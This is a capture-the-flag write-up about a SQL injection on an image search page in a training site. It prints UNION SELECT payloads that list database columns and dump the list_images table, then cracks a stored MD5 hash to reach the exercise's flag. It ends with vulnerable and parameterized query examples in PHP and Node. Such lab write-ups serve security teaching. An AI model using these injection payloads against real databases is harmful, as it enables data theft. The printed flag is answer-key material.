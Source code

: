# Image Search Engine SQL injection

Before reading this breach explanations please have a look to this breach before:

[SQL injection on members table explanations →](../../sql_injection_members_table/Ressources/Explanations.md)

The principle is same as for the members SQL breach.
As in the previous SQL injection we achieved to retrieve the whole database Tables and Columns.
Images table is not spared:

```sql
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : id
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : url
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : title
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : comment
```

`list_images` table has 4 columns:
- id
- url
- title
- comment

## UNION SELECT and CONCAT SQL injection

We will then retrieve all the table's entries with all their fields.

Input:
```sql
-1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images
```

Output:
```sql
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 1https://fr.wikipedia.org/wiki/Programme_NsaAn image about the NSA !
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 2https://fr.wikipedia.org/wiki/Fichier:4242 !There is a number..
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 3https://fr.wikipedia.org/wiki/Logo_de_GoGoogleGoogle it !
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 4https://en.wikipedia.org/wiki/Earth#/medEarthEarth!
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 1
```

We can see that the last image contains a hash to handle `1928e8083cf461a51303633093573c46`.

### Retrieving the flag

Via md5 decrypt of `1928e8083cf461a51303633093573c46` containted in the `comment` list_images table column that leads to `albatroz`.

Hashing using sha256 the `albatroz` results in `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188` which is our flag.

## Solution

A solution to avoid this kind of breach would be to escape received image id using either your native database escaping tools or manually.

An other solution would be to use an ORM that will natively prevent sql injections.

### Php Example

Unsecured sql querying:

```php
$statement = $dbh->prepare("select comment, url from list_images where list_images.id = {$id}");
$statement->execute();
```

Secured sql querying:

```php
$statement = $dbh->prepare("select comment, url from list_images where list_images.id = ?");
$statement->execute([$id]);
```

### Node Example

Unsecured sql querying:

```js
connection.query(
  `select comment, url from list_images where list_images.id = ${id}`,
  function(err, rows, fields) {
    // Do something with the retrieved data.
  });

```

Secured sql querying:

```js
connection.query(
  'select comment, url from list_images where list_images.id = ?',
  [id],
  function(err, rows, fields) {
    // Do something with the retrieved data.
  });
```
